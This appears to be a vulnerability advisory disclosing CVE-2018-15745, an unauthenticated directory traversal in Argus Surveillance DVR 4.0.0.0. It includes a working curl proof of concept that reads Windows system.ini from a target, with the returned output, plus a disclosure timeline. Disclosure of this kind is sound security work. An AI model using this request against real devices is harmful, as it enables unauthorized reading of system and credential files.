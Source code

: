 EXP
---

    [+] Credits: John Page (aka hyp3rlinx)
    [+] Website: hyp3rlinx.altervista.org
    [+] Source:  http://hyp3rlinx.altervista.org/advisories/ARGUS-SURVEILLANCE-DVR-v4-UNAUTHENTICATED-PATH-TRAVERSAL-FILE-DISCLOSURE.txt
    [+] ISR: Apparition Security

    Greetz: ***Greetz: indoushka | Eduardo | GGA***


    [Vendor]
    www.argussurveillance.com


    [Product]
    Argus Surveillance DVR - 4.0.0.0

    Our DVR software provides scheduled, continuous or activated upon motion detection video recording. You can monitor unlimited number of cameras, through Internet or on-site.
    When our surveillance software detects motion in the monitored area, it sounds alarm, e-mails captured images, or records video.
    This is security surveillance IP camera software. It has features to place image overlays and date/time stamps, adjust picture size / quality, and Pan/Tilt/Zoom control.


    [Vulnerability Type]
    Directory Traversal


    [CVE Reference]
    CVE-2018-15745


    [Security Issue]
    Argus Surveillance DVR 4.0.0.0 devices allow Unauthenticated Directory Traversal, leading to File Disclosure
    via a ..%2F in the WEBACCOUNT.CGI RESULTPAGE parameter.


    [Affected Component]
    WEBACCOUNT.CGI RESULTPAGE parameter


    [Exploit/POC]
    curl "http://VICTIM-IP:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

    ; for 16-bit app support
    woafont=dosapp.fon
    EGA80WOA.FON=EGA80WOA.FON
    EGA40WOA.FON=EGA40WOA.FON
    CGA80WOA.FON=CGA80WOA.FON
    CGA40WOA.FON=CGA40WOA.FON

    wave=mmdrv.dll
    timer=timer.drv



    [Video POC URL]
    https://vimeo.com/287115273



    [Network Access]
    Remote



    [Severity]
    High



    [Disclosure Timeline]
    Vendor Notification: August 17, 2018
    Second attempt: August 21, 2018
    CVE Assigned Mitre: August 23, 2018
    August 28, 2018 : Public Disclosure



    [+] Disclaimer
    The information contained within this advisory is supplied "as-is" with no warranties or guarantees of fitness of use or otherwise.
    Permission is hereby granted for the redistribution of this advisory, provided that it is not altered except by reformatting it, and
    that due credit is given. Permission is explicitly given for insertion in vulnerability databases and similar, provided that due credit
    is given to the author. The author is not responsible for any misuse of the information contained herein and accepts no responsibility
    for any damage caused by the use or misuse of this information. The author prohibits any malicious use of security related information
    or exploits by the author or elsewhere. All content (c).

    hyp3rlinx